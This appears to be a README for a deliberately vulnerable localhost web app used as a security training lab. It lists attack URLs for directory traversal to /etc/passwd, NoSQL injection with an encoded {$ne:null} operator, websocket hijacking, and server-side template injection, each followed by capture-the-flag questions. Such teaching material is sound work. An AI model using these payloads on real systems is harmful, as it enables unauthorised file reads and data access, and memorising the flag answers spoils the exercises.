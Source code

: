 #### ctf - N/A

### Directory Traversal (From Help Menu)
`http://localhost:8080/help?filePath=help.txt`

`http://localhost:8080/help?filePath=/etc/passwd`


#### ctf
1. What is the uid of root, daemon and nobody?

(answer in the format of `Flag{rootuid|daemonuid|nobodyuid}` ie 3 numbers with `|` to separate)


### nosqli

List out all tickets

`http://localhost:8080/pages/protected/tickets/details?id=%7B%24ne%3Anull%7D`

#### ctf
1. What is the urlencoded payload to list out all the tickets?

(answer in the format of `Flag{PAYLOAD}`)


### websocket

To hijack the ticket info bar
`http://localhost:8080/files/ws.html`

#### ctf
1. In the attacker's websocket html (`ws.html`), which line of code hijack and send message to the ticket info bar?
(copy that line of code as flag `Flag{that_line_of_code}`)


### SSTI

manipulate the expression in querystring

`http://localhost:8080/pages/calc?expression=System.getProperty(%22os.name%22)`

#### ctf
1. What is the payload to find the OS?

(answer in the format of `Flag{PAYLOAD}`)


2. What is the OS name?

(answer in the format of `Flag{OS_NAME}`)


### XXE

`http://localhost:8080/files/xml.html`
